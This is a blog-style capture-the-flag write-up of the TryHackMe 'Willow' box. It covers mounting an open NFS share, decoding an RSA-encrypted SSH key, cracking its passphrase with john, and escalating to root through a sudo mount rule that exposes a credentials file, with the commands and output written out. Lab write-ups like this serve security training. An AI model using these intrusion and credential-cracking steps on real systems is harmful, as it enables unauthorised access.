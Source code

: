```yaml
---
layout: post
title:  "THM - Willow"
date:   2020-08-08 20:00:00 +1000
category: hacking
---
```


## Introduction
*What lies under the Willow Tree?*  

This one is Medium rated with no hints. Let's begin.

## Ports
nmap says we've got four ports: 22 (SSH), 80 (HTTP), 111 (RPCBind) and 2049 (NFS). So that's interesting.

## NFS
Let's go check out the NFS share.

``
mkdir mountpoint
``
``
mount -t nfs 10.10.226.215:/ ./mountpoint/
``

In the mount we have a file; **rsa_keys**. In that, we get this:
>Public Key Pair: (23, 37627)  
Private Key Pair: (61527, 37627)

And that's all we've got to go on. But, it's a start.

## Webserver
On the website, all we get is a big old bunch of numbers, i.e:

>4865792057696c6c6f772c2068657265277320796f75722053534820507 *snip*

Actually if we look closely, the first bit is different - it's hexadecimal. That decodes to:

>Hey Willow, here's your SSH Private key -- you know where the decryption key is!.

So presumably the rest of it (and there is a lot)  is the SSH key, encoded with RSA....

## RSA
So we've got **e**, **d** and **n** for our RSA decryption, but the cipher won't decode nicely just the way it is. There may be some simple way around this, but for me it was just looking at the data and trying to figure out what was going on. It helps knowing that an RSA private key begins with 

*-----BEGIN RSA PRIVATE KEY-----* 

and ends with

*-----END RSA PRIVATE KEY-----*

I tried encoding a few of these characters to find out what they were supposed to encode to, and that helped. 

Eventually I figured out that we had a *bunch* of extra 3's in there. In fact, just about every second character was a superfluous '3'. Stripping those out got us close, but not all the way there. We also had a bunch of extra zeros; usually every fifth character but not always. Sort of like a reversed evil FizzBuzz. In the end I wrote some python code to clean up the cipher:

{% highlight python %}
stripped = ''
timesincelast = 0

with open('ciper.txt', 'r') as f:
    data = f.read()
    data_as_str = str(data)
       
    
for index,char in enumerate(data_as_str):
    if index % 2 != 0:
        stripped += char
            
for index, char in enumerate(stripped):
        if index - 1 < len(stripped):
            next = stripped[(index + 1)]
            if char == '0' and next != '0' and timesincelast > 3:
                print (' ', end='')
                timesincelast = 0
            else:
                print(char, end='')
                timesincelast += 1
{% endhighlight %}

## Decode
Once I had the cleaned up ciper I dropped it into this [website](https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html) and got out an encoded SSH key. John can deal with that:

{% highlight shell %}
root@kali:/opt/tryhackme/willow# python /usr/share/john/ssh2john.py id_rsa_enc > id_rsa_john  
root@kali:/opt/tryhackme/willow# john id_rsa_john -w=/usr/share/wordlists/rockyou.txt  
Warning: UTF-8 seen reading id_rsa_john  
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])  
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes  
Cost 2 (iteration count) is 1 for all loaded hashes  
Will run 4 OpenMP threads  
Note: This format may emit false positives, so it will keep trying even after  
finding a possible candidate.  
Press 'q' or Ctrl-C to abort, almost any other key for status  
REDACTED       (id_rsa_enc)  
{% endhighlight %}

## Willow
With this information and the chmodded key we can log in as Willow. The user flag is in a jpg, so we can't easily view it through SSH. Hmmmm.

Fortunately, we can grab it with scp:

``
root@kali:/opt/tryhackme/willow# scp -i id_rsa_enc willow@10.10.21.220:/home/willow/user.jpg user.jpg
``

And then we can view the file and get the flag. Next, let's see what Willow can do back on the box:

{% highlight shell %}
willow@willow-tree:~$ sudo -l  
Matching Defaults entries for willow on willow-tree:  
    env_reset, mail_badpass,   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  

User willow may run the following commands on willow-tree:  
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*  
{% endhighlight %}

## Privesc
Checking in /dev/, we can find an interesting directory. Let's check it out:

{% highlight shell %}
willow@willow-tree:/dev/shm$ mkdir /tmp/mnt  
willow@willow-tree:/dev/shm$ sudo mount /dev/hidden_backup /tmp/mnt  
willow@willow-tree:/dev/shm$ cd /tmp/mnt/  
willow@willow-tree:/tmp/mnt$ ls -lash  
total 6.0K  
1.0K drwxr-xr-x  2 root root 1.0K Jan 30  2020 .  
4.0K drwxrwxrwt 11 root root 4.0K Aug  8 13:36 ..  
1.0K -rw-r--r--  1 root root   42 Jan 30  2020 creds.txt  
willow@willow-tree:/tmp/mnt$ cat creds.txt  
root:REDACTED
willow:REDACTED
{% endhighlight %}

Cool, let's do **su root** and grab the flag!

{% highlight shell %}
root@willow-tree:~# cat root.txt
This would be too easy, dont you think? I actually gave you the root flag some time ago.
Youve got my password now -- go find your flag!
{% endhighlight %}

Wait, what? Haha...what could that mean?

{% highlight shell %}
root@kali:/opt/tryhackme/willow# steghide extract -sf user.jpg 
Enter passphrase: 
wrote extracted data to "root.txt".
{% endhighlight %}

And that's where the flag was!

What a cracking box, I enjoyed this one. Thanks [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle).
